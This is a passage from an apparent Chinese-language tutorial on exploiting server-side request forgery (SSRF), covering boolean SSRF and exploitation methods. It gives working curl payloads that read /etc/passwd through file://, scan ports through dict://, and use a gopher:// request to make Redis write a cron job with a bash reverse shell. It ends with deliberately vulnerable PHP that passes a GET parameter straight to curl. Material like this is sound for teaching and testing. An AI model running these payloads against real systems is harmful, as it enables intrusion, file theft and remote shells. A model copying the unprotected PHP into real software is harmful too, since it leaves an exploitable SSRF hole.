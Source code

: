 5.留意bool型SSRF<br>
一般的SSRF在应用识别阶段返回的信息相对较多,比如Banner信息,HTTP Title信息,更有甚的会将整个HTTP的Reponse完全返回. 而Bool型SSRF的却永远只有True或者False。因为没有任何Response信息,所以对于攻击Payload的选择也是有很多限制的, 不能选择需要和Response信息交互的Payload。



## ssrf利用方式

一些利用方式：

对外网、服务器所在内网及本地系统进行端口扫描<br>
攻击运行在内网或本地的应用程序<br>
对内网Web应用进行指纹识别，获取企业单位内部的资产信息<br>
通过HTTPGET的请求方式来攻击内外网的Web应用<br>
利用file协议读取本地文件<br>
DoS攻击（请求大文件，始终保持连接keep-alive always）

### <a class="reference-link" name="%E6%9C%AC%E5%9C%B0%E5%88%A9%E7%94%A8"></a>本地利用

curl支持大量的协议，例如file, dict, gopher, http

[![](https://p3.ssl.qhimg.com/t01abc69ffa869ce962.png)](https://p3.ssl.qhimg.com/t01abc69ffa869ce962.png)

利用file协议查看文件<br>
curl -v ‘file:///etc/passwd’

[![](https://p4.ssl.qhimg.com/t017d1c5ddfa6eebf4e.png)](https://p4.ssl.qhimg.com/t017d1c5ddfa6eebf4e.png)

利用dict探测端口

```
curl -v ‘dict://127.0.0.1:22’
curl -v ‘dict://127.0.0.1:6379/info’
```

利用gopher协议反弹shell

```
curl -v ‘gopher://127.0.0.1:6379/_3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$57%0d%0a%0a%0a%0a/1 bash -i &gt;&amp; /dev/tcp/127.0.0.1/2333 0&gt;&amp;1%0a%0a%0a%0d%0a4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$16%0d%0a/var/spool/cron/%0d%0a4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$4%0d%0aroot%0d%0a1%0d%0a$4%0d%0asave%0d%0a1%0d%0a$4%0d%0aquit%0d%0a’
```

### <a class="reference-link" name="%E8%BF%9C%E7%A8%8B%E5%88%A9%E7%94%A8"></a>远程利用

漏洞代码testssrf.php（未作任何SSRF防御）

```
function curl($url)`{`
$ch = curl_init();
curl_setopt($ch, CURLOPT_URL, $url);
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_exec($ch);
curl_close($ch);
`}`
$url = $_GET[‘url’];
curl($url);
```
